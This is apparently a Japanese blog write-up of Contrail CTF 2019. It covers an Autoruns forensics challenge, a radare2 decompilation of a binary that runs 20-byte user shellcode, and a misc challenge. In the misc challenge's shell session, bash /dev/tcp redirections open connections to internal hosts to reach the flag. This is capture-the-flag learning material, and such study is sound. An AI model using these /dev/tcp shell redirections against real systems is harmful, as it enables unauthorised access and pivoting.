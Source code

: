 --
date: 2020-01-04
description: 'Contrail CTF 参加記録'
category:
 - 雑記
---

# Contrail CTF 参加記録と解き直し

SCBで出て, Score302, 25位でした。
そのうち, 私は以下の問題を解きました。

 - debug_port: network
 - Persistence: forensics
 
では, 解き直しをやっていき

## forensics
### Persistence
`.arn`ファイルが与えられます。  
これはAutorunsの拡張子なので, 開いて中身を確認します。

Task Schedulerに`\Evil`というプロセスが残っているので中身を確認するとflagがあります。

### alice's password
正しくunzipできないzipファイルとdataが与えられます。

## Pwn
### EasyShellCode
20Byte(0x14)までしかread()してくれない。
そのあとはシェルコードを実行してくれる。

radare2で逆アセンブルする。

```
# r2 problem 
[0x00000710]> aaaa
[Cannot analyze at 0x00000700g with sym. and entry0 (aa)
[x] Analyze all flags starting with sym. and entry0 (aa)
[Cannot analyze at 0x00000700ac)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[0x00000710]> s main
[0x0000081a]> pdd
/* r2dec pseudo code output */
/* problem @ 0x81a */
#include <stdint.h>
 
int32_t main (void) {
    rax = *(fs:0x28);
    *((rbp - 8)) = rax;
    eax = 0;
    r9d = 0;
    r8d = 0;
    rax = mmap (0, 0x64, 7, 0x22, r8d, r9d);
    *((rbp - 0x10)) = rax;
    eax = 0;
    printf ("Input your shellcode: ");
    rax = stdout;
    fflush (*(obj.stdout));
    rax = *((rbp - 0x10));
    read (0, rax, 0x14);
    rax = *((rbp - 0x10));
    edx = 7;
    esi = 0x64;
    rdi = rax;
    mprotect ();
    rax = rbp - 0x10;
    rdx = 0;
    rdi = 0;
    rsi = 0;
    rbx = 0;
    rcx = 0;
    r8 = 0;
    r9 = 0;
    r10 = 0;
    r11 = 0;
    r12 = 0;
    r13 = 0;
    r14 = 0;
    r15 = 0;
    rbp = 0;
    return uint64_t (*rax)() ();
}
```

最後の行で`uint64_t (*rax)() ();`を実行しているので, `read (0, rax, 0x14);`でシェルコードを読み込めれば問題なく実行できそう。  


これは, 引数が空で返り値がuint64_tな関数へのポインタであり, raxから始まるアドレスに格納されているアドレスを間接参照で読み出します。

 - [詳しくはこちらを見ると良い](https://www.sigbus.info/compilerbook#type)


## Misc
### Let's connct
```
$ nc 114.177.250.4 2999
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ help
help
GNU bash, version 4.4.20(1)-release (x86_64-pc-linux-gnu)
These shell commands are defined internally.  Type `help' to see this list.
Type `help name' to find out more about the function `name'.
Use `info bash' to find out more about the shell in general.
Use `man -k' or `info' to find out more about commands not in this list.

A star (*) next to a name means that the command is disabled.

 job_spec [&]                            history [-c] [-d offset] [n] or hist>
 (( expression ))                        if COMMANDS; then COMMANDS; [ elif C>
 . filename [arguments]                  jobs [-lnprs] [jobspec ...] or jobs >
 :                                       kill [-s sigspec | -n signum | -sigs>
 [ arg... ]                              let arg [arg ...]
 [[ expression ]]                        local [option] name[=value] ...
 alias [-p] [name[=value] ... ]          logout [n]
 bg [job_spec ...]                       mapfile [-d delim] [-n count] [-O or>
 bind [-lpsvPSVX] [-m keymap] [-f file>  popd [-n] [+N | -N]
 break [n]                               printf [-v var] format [arguments]
 builtin [shell-builtin [arg ...]]       pushd [-n] [+N | -N | dir]
 caller [expr]                           pwd [-LP]
 case WORD in [PATTERN [| PATTERN]...)>  read [-ers] [-a array] [-d delim] [->
 cd [-L|[-P [-e]] [-@]] [dir]            readarray [-n count] [-O origin] [-s>
 command [-pVv] command [arg ...]        readonly [-aAf] [name[=value] ...] o>
 compgen [-abcdefgjksuv] [-o option] [>  return [n]
 complete [-abcdefgjksuv] [-pr] [-DE] >  select NAME [in WORDS ... ;] do COMM>
 compopt [-o|+o option] [-DE] [name ..>  set [-abefhkmnptuvxBCHP] [-o option->
 continue [n]                            shift [n]
 coproc [NAME] command [redirections]    shopt [-pqsu] [-o] [optname ...]
 declare [-aAfFgilnrtux] [-p] [name[=v>  source filename [arguments]
 dirs [-clpv] [+N] [-N]                  suspend [-f]
 disown [-h] [-ar] [jobspec ... | pid >  test [expr]
 echo [-neE] [arg ...]                   time [-p] pipeline
 enable [-a] [-dnps] [-f filename] [na>  times
 eval [arg ...]                          trap [-lp] [[arg] signal_spec ...]
 exec [-cl] [-a name] [command [argume>  true
 exit [n]                                type [-afptP] name [name ...]
 export [-fn] [name[=value] ...] or ex>  typeset [-aAfFgilnrtux] [-p] name[=v>
 false                                   ulimit [-SHabcdefiklmnpqrstuvxPT] [l>
 fc [-e ename] [-lnr] [first] [last] o>  umask [-p] [-S] [mode]
 fg [job_spec]                           unalias [-a] name [name ...]
 for NAME [in WORDS ... ] ; do COMMAND>  unset [-f] [-v] [-n] [name ...]
 for (( exp1; exp2; exp3 )); do COMMAN>  until COMMANDS; do COMMANDS; done
 function name { COMMANDS ; } or name >  variables - Names and meanings of so>
 getopts optstring name [arg]            wait [-n] [id ...]
 hash [-lr] [-p pathname] [-dt] [name >  while COMMANDS; do COMMANDS; done
 help [-dms] [pattern ...]               { COMMANDS ; }
bash-4.4history
history
    1  help
    2  history
bash-4.4$ history
history
    1  help
    2  history
    3  history
bash-4.4$ exec <> /dev/tcp/172.17.0.10/3000
exec <> /dev/tcp/172.17.0.10/3000
bash: connect: Connection refused
bash: /dev/tcp/172.17.0.10/3000: Connection refused
bash-4.4$ ls
ls
bash
bin
dev
flag
lib
lib32
lib64
bash-4.4$ echo "$(<flag)"
 echo "$(<flag)"
Flag has moved to 3000 port on 172.17.0.5 .
bash-4.4$ exec 3<> /dev/tcp/172.17.0.5/3000; ./bash <&3
```

## ref
 - [Contrail CTF writeup by aqua](https://www.aquablog.site/entry/2020/01/04/000000)
 - [ContrailCTF\_2019のwriteup by Tsubasa](http://szarny.hatenablog.com/entry/2020/01/04/ContrailCTF_2019%E3%81%AEwriteup)
 - [Contrail CTF WriteUp by ryoto](https://www.ryotosaito.com/blog/?p=400)
 - [Contrail CTF 2019のWriteup by ptr-yudai](https://ptr-yudai.hatenablog.com/entry/2020/01/04/000225)
